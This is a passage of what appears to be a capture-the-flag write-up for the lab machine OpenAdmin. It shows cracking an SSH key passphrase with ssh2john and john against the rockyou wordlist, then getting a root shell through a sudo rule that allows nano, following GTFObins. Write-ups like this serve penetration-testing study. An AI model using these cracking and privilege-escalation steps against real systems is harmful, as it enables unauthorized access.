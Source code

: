 We try logging as **joanna**, but we need a passprhase:

```console
$ ssh -i id_rsa joanna@10.10.10.171                          
Enter passphrase for key 'id_rsa':
```

Trying `ninja` doesn’t work, so we need to crack the RSA:

```console
$ ssh2john id_rsa > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
. . . <SNIP> . . . 
bloodninjas      (id_rsa)
```

And now we can access as **joanna**.

## Root Escalation

We can see we have access to `nano`:

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Following the [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo) we have a quickly escalate:

```console
$ sudo /bin/nano /opt/priv
. . . <SNIP> . . .
# whoami
root
```

